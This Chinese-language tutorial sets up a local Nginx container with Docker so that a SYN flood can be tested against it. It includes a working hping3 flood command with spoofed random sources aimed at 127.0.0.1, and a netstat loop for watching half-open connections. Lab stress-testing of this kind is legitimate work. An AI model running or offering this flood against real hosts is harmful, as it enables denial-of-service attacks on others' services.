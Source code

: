 以下是使用Docker快速构建Nginx服务并映射到本机8001端口的完整步骤：

### 1. 拉取官方Nginx镜像
```bash
docker pull nginx:latest
```

### 2. 创建并运行容器
```bash
docker run -d --name my-nginx -p 8001:80 nginx
```

### 3. 验证服务
```bash
curl http://localhost:8001
# 或在浏览器访问 http://localhost:8001
```

### 4. 测试SYN洪泛攻击
```bash
sudo hping3 -S -p 8001 --flood --rand-source 127.0.0.1
```

### 5. 监控攻击效果（新终端）
```bash
watch -n 1 "netstat -ant | grep SYN_RECV | wc -l"
```

### 关键说明：
1. **端口映射**：`-p 8001:80` 将容器内80端口映射到主机8001
2. **攻击目标**：使用`127.0.0.1`或你的本机IP
3. **防御观察**：默认情况下现代Docker网络会过滤部分异常流量

### 完整docker-compose方案（推荐）：
```yaml
version: '3'
services:
  nginx:
    image: nginx
    ports:
      - "8001:80"
```

启动：
```bash
docker-compose up -d
```

### 攻击效果验证：
- 成功时：应看到SYN_RECV连接数上升
- 无效果时：检查是否启用了SYN Cookie（`sysctl net.ipv4.tcp_syncookies`）

### 清理命令：
```bash
docker stop my-nginx && docker rm my-nginx
# 或
docker-compose down
```

这种方法比Python的http.server更适合测试SYN攻击，因为Nginx有完整的TCP协议栈实现。


